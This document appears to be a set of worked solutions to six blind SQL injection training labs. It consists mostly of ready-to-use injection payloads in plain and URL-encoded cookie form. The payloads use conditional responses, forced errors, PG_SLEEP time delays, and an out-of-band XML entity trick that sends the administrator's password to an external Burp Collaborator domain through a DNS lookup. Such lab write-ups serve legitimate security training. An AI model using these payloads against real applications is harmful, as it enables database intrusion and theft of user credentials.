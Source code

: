 # Blind SQL injection vulnerabilities

## Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

Target cookie request header:

```
Cookie: TrackingId=d3KGutgKOMjnh4xT
```

Target SQL query:

```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'd3KGutgKOMjnh4xT'
```

Solution:

```SQL
xyz' OR '1'='1
xyz' OR '1'='2
' UNION SELECT username FROM users WHERE username = 'administrator' AND LENGTH(password) > 19--
' UNION SELECT username FROM users WHERE username = 'administrator' AND LENGTH(password) > 20--
' UNION SELECT username FROM users WHERE username = 'administrator' AND SUBSTR(password, §§, 1) > '§§'--
```

Modified cookie request header:

```
Cookie: TrackingId='+UNION+SELECT+username+FROM+users+WHERE+username+=+'administrator'+AND+SUBSTR(password,+§§,+1)+>+'§§'--
```

## Blind SQL injection with conditional errors

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

Target cookie request header:

```
Cookie: TrackingId=CFO6j85RorXzU17G
```

Target SQL query:

```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'CFO6j85RorXzU17G'
```

Solution:

```SQL
' UNION SELECT CASE WHEN (username = 'administrator' AND LENGTH(password) > 19) THEN TO_CHAR(1/0) ELSE NULL END FROM users--
' UNION SELECT CASE WHEN (username = 'administrator' AND LENGTH(password) > 20) THEN TO_CHAR(1/0) ELSE NULL END FROM users--
' UNION SELECT CASE WHEN (username = 'administrator' AND SUBSTR(password, §§, 1) = '§§') THEN TO_CHAR(1/0) ELSE NULL END FROM users--
```

Modified cookie request header:

```
Cookie: TrackingId='+UNION+SELECT+CASE+WHEN+(username+=+'administrator'+AND+SUBSTR(password,+§§,+1)+=+'§§')+THEN+TO_CHAR(1/0)+ELSE+NULL+END+FROM+users--
```

## Blind SQL injection with time delays

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

Target cookie request header:

```
Cookie: TrackingId=GozlT53MXFfyOacv
```

Target SQL query:

```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'GozlT53MXFfyOacv'
```

Solution:

```SQL
' || PG_SLEEP(10)--
```

Modified cookie request header:

```
Cookie: TrackingId='+||+PG_SLEEP(10)--
```

## Blind SQL injection with time delays and information retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

Target cookie request header:

```
Cookie: TrackingId=t7j8rI6oMCaPTlEC
```

Target SQL query:

```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 't7j8rI6oMCaPTlEC'
```

Solution:

```SQL
'%3B SELECT CASE WHEN (username = 'administrator' AND SUBSTR(password, §§, 1) = '§§') THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END FROM users--
```

Modified cookie request header:

```
Cookie: TrackingId='%3B+SELECT+CASE+WHEN+(username+=+'administrator'+AND+SUBSTR(password,+§§,+1)+=+'§§')+THEN+PG_SLEEP(5)+ELSE+PG_SLEEP(0)+END+FROM+users--
```

## Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

Target cookie request header:

```
Cookie: TrackingId=TGK463hgRPbVUYFr
```

Target SQL query:

```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'TGK463hgRPbVUYFr'
```

Solution:

```SQL
' UNION SELECT EXTRACTVALUE(XMLTYPE('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://tfc8d4161a43yingegd9r8gtskyxcgwy01p.burpcollaborator.net/"> %remote;]>'), '/l') FROM dual--
```

Modified cookie request header:

```
Cookie: TrackingId='+UNION+SELECT+EXTRACTVALUE(XMLTYPE('<%3Fxml+version%3D"1.0"+encoding%3D"UTF-8"%3F><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3A//tfc8d4161a43yingegd9r8gtskyxcgwy01p.burpcollaborator.net/">+%25remote%3B]>'),+'/l')+FROM+dual--
Cookie: TrackingId=7qoguswvlm7zqjsrl6rzd4zj56bcawvz
```

## Blind SQL injection with out-of-band data exfiltration

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

Target cookie request header:

```
Cookie: TrackingId=UvXJQOPrW2sZMTtQ
```

Target SQL query:

```SQL
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'UvXJQOPrW2sZMTtQ'
```

Solution:

```SQL
' UNION SELECT EXTRACTVALUE(XMLTYPE('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://gl5wgwoxuglwbr0onhix816ngem4at.burpcollaborator.net/"> %remote;]>'), '/a') FROM dual--
' UNION SELECT EXTRACTVALUE(XMLTYPE('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT+password+FROM+users+WHERE+username%3D'administrator')||'.gl5wgwoxuglwbr0onhix816ngem4at.burpcollaborator.net/"> %remote;]>'), '/abc') FROM dual--
```

Modified cookie request header:

```
Cookie: TrackingId='+UNION+SELECT+EXTRACTVALUE(XMLTYPE('<%3Fxml+version%3D"1.0"+encoding%3D"UTF-8"%3F><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3A//'||(SELECT+password+FROM+users+WHERE+username%3D'administrator')||'.gl5wgwoxuglwbr0onhix816ngem4at.burpcollaborator.net/">+%25remote%3B]>'),+'/abc')+FROM+dual--
```